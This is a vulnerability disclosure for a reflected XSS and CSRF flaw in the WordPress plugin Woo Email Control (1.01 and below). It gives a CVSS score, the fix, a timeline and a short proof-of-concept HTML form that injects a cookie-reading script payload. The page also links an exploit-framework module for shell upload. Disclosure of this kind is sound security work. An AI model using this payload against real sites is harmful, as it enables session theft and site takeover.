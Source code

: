```yaml
---
layout: single
title: Woo Email Control <= 1.01 Reflected XSS Disclosure
date: 2016-07-19
categories:
  - security
  - websec
  - disclosure
tags:
  - wordpress
  - woo email control
  - reflected xss
excerpt: Due to a lack of encoding and CSRF mitigation in the `test_email` function found on line 106 of `classes/class-wooctrl.php`, it is possible to automate a request to the AJAX handler for the `wooctrl_send_test_email` action which will reflect the specified script back to the end user.
---
```

## Homepage
[https://wordpress.org/plugins/woo-email-control/](https://wordpress.org/plugins/woo-email-control/)

## Overview
Due to a lack of encoding and CSRF mitigation in the `test_email` function found on line 106 of `classes/class-wooctrl.php`, it is possible to automate a request to the AJAX handler for the `wooctrl_send_test_email` action which will reflect the specified script back to the end user.

## CVSS Score
4.8

## CVSS Vector
[(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C)](https://nvd.nist.gov/cvss.cfm?calculator&version=2&vector=(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C))

## Versions Affected
1.01 and below

## Solution
Upgrade to version 1.02

## Proof of Concept
```xml
<form method="post" action="http://<target>/wp-admin/admin-ajax.php?action=wooctrl_send_test_email">
    <input type="text" name="email_class" value="WC_Email_Customer_New_Account">
    <input type="text" name="recipient" value="user@user.com<img src=x onerror=alert(document.cookie)>">
    <input type="submit" value="Test">
</form>
```

## WordPress Exploit Framework Module
[exploit/xss/reflected/woo\_email\_control\_reflected\_xss\_shell\_upload](https://github.com/rastating/wordpress-exploit-framework/blob/development/lib/wpxf/modules/exploit/xss/reflected/woo_email_control_reflected_xss_shell_upload.rb)

## WPVDB-ID
8559

## Disclosure Timeline
* **2016-07-18**: Identified vulnerability, contacted vendor with POC and a patch.
* **2016-07-18**: Vendor released patch.
